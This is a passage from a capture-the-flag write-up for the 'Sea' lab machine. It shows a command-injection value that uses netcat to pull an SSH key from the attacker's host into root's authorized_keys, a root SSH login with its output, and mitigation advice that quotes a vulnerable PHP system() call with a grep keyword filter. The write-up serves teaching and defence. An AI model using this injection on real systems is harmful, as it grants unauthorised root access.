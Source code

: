 Now I'll setup a listener and feed it the public ssh key.

```bash
nc -lvnp 1234 < id_rsa.pub
```

Now on burp I'll inject the following command.

```bash
$(nc 10.10.16.44 1234 > /root/.ssh/authorized_keys)
```

This will receive the key from my listener and put it in the `authorized_keys` file of root.

![sshkey](11.png)

Now we can use the private key to ssh as root.

```terminal
┌─[eu]─[10.10.16.44]─[sirius@parrot]─[~]
└──╼ [★]$ ssh -i ~/CTF/www/id_rsa root@sea.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)

[...]

Last login: Wed Aug 14 15:25:51 2024
root@sea:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## **Prevention and Mitigation**

### CVE-2023–41425

The WonderCMS in use is out of date with publicly available RCE exploit.

Update to the latest vendor patch and maintain an active patch schedule for any patches that may be released in the future.

### Passwords

The password used by amay was weak and we were able to crack the hash easily, as well reusing the password for different accounts.

Ensure the users follow a strong password policy and never use the same password twice. A password manager should help achieving that.

### Command injection

Looking at the index.php file we can see the line responsible for reading the file.

```php
$suspicious_traffic = system("cat $log_file | grep -i 'sql\|exec\|wget\|curl\|whoami\|system\|shell_exec\|ls\|dir'");
```

We see here it's using `system` function which executes system commands, then prints the file using `cat` and passing the `$log_file` directly to `cat`.
